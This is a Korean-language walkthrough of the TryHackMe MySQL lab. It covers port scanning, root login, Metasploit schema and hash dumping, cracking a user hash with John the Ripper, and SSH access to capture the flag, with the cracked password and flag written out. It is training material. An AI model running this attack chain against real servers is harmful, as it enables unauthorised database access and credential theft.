 # TryHackMe - Network Services 2 (MySQL)

> 이 실습은 TryHackMe의 Network Services 2 챕터 중 MySQL을 활용한 공격 시나리오입니다. 포트 스캔부터 DB 접속, 해시 크랙, 최종 SSH 접근 및 플래그 획득까지의 전 과정을 다룹니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.92.222`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `mysql`: 직접 DB 접속 확인
  - `Metasploit Framework`: DB 버전, 스키마, 해시 덤프 등 정보 수집
  - `John the Ripper`: 비밀번호 해시 크랙
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -p- -T4 10.10.92.222 -oN nmap_scan.txt
```
- 설명: 모든 포트를 대상으로 서비스 및 버전 정보, 운영체제 탐지까지 수행. 결과적으로 22번(SSH), 3306번(MySQL) 포트가 열려 있으며 각각 OpenSSH 7.6p1 및 MySQL 5.7.29 버전이 실행 중인 것을 확인. 인증서 정보와 인증 방식(mysql_native_password)도 수집됨.

| 포트 | 서비스 | 설명 |
|------|---------|------------------------------|
| 22/tcp | ssh     | OpenSSH 7.6p1 (Ubuntu Linux) |
| 3306/tcp | mysql  | MySQL 5.7.29 (Ubuntu 18.04)   |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 MySQL 직접 접속 확인

- 설명: 문제에서 제공된 아이디 비밀번호를 통해 기본 계정 정보를 이용해 DB에 직접 접속 가능한지 테스트 했습니다. 인증에 성공하면 내부 탐색이 가능합니다.

```bash
mysql -h 10.10.92.222 -u root -p
# password: password
```

![MySQL 로그인 성공](./screenshots/mysql_login.png)

---

### 3.2 Metasploit - MySQL 버전 확인

- 설명: Metasploit의 `mysql_sql` 모듈을 통해 MySQL 버전 정보를 확인 하였습니다. 취약점 존재 여부 판단에 활용을 위해 이 모듈을 사용했습니다.

```bash
use auxiliary/admin/mysql/mysql_sql
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_sql 모듈 옵션 확인](./screenshots/msf_mysql_sql_module.png)

- 버전 확인 결과

![MySQL 버전 확인 결과](./screenshots/msf_mysql_version_result.png)

- 후에 DB 목록 확인을 위해 아래 명령어를 사용했습니다.

```bash
set sql show databases
```

![SQL로 DB 목록 확인](./screenshots/msf_schema_show_dbs.png)

---

### 3.3 Metasploit - 스키마 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 `mysql_schemadump` 모듈을 사용해 DB 서버에 저장된 전체 데이터베이스 목록을 수집하기 위해 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_schemadump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_schemadump 모듈 옵션 보기](./screenshots/msf_schema_dump_module.png)

- 스키마 덤프 결과

![스키마 덤프 결과](./screenshots/msf_schema_dump_result.png)

- DB 스캔 결과: [db.txt](./db.txt) 파일 참조 (파일 내용 매우 김.)

---

### 3.4 Metasploit - 해시 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 해시를 덤프하기 위해 `mysql_hashdump` 모듈을 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_hashdump 모듈 옵션 보기](./screenshots/msf_hashdump_module.png)

- 또 다른 사용자 해시 수집됨:
```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

![사용자 해시 정보 획득](./screenshots/msf_hashdump_result.png)

---

### 3.5 John the Ripper로 비밀번호 크랙

- 설명: 이 해시는 MySQL 5.x 버전에서 사용하는 native password 인증 해시로, `SHA1(SHA1(password))` 방식입니다. 따라서 John에서 `--format=mysql-sha1` 옵션을 사용해 크랙을 시도하였습니다.

- 추가: 우선 가져온 사용자 이름과 해시 비밀번호를 `hash.txt`에 복사를 하여 실행을 했습니다.

```bash
vi hash.txt
john --format=mysql-sha1 hash.txt
john --show hash.txt
```

- 결과: `carl:doggie`

![John 해시 크랙 결과](./screenshots/john_crack_hash.png)

---

### 3.6 SSH 접속 및 플래그 획득

- 설명: 크랙한 계정 정보를 사용해 SSH로 시스템에 접근하고, 사용자 홈 디렉토리에서 `MySQL.txt` 파일 확인하여 플래그를 확보 했습니다.

```bash
ssh carl@10.10.92.222
# password: doggie
```

- 획득한 플래그: `THM{congratulations_you_got_the_mySQL_flag}`

![SSH 접속 및 flag 획득](./screenshots/ssh_login_flag.png)

---

## 4. 배운 점

- Metasploit을 활용한 DB 정보 수집이 굉장히 강력하다는걸 깨달았다. (schemadump, hashdump)
- MySQL 해시 형식(`mysql-sha1`)을 식별하고 John으로 정확히 크랙하는 방법을 습득 하였다.
- 단일 서비스에서 시작해도 SSH까지 이어지는 공격 시나리오 구성이 가능하다는 걸 알았다.
- DB 인증정보 재사용 여부가 보안에 미치는 영향을 체감했다.




